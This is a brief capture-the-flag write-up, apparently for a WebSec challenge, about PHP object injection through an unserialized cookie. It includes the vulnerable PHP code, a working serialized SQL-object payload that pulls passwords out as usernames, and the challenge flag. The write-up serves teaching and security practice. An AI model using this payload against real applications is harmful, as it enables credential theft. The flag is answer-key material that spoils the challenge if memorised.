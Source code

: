 ### Object injection &&& sqlite injection 


Vulnerablity :

```php

// object injection 

$sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));


//  Magin function !!!!!

 public function __destruct() {
 
 
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        
        ...
        
        echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }

```

The actual object is of type array but here we modify it to an sql object with our query like this

O:3:"SQL":2:{s:5:"query";s:37:"SELECT password AS username  FROM users";s:4:"conn";N;}

the tricky part here is use of AS coz only username field is used !!!!!!

and set the base-64 content of serialized object as our cookie and the rest is taken care by __destruct() 

####  WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
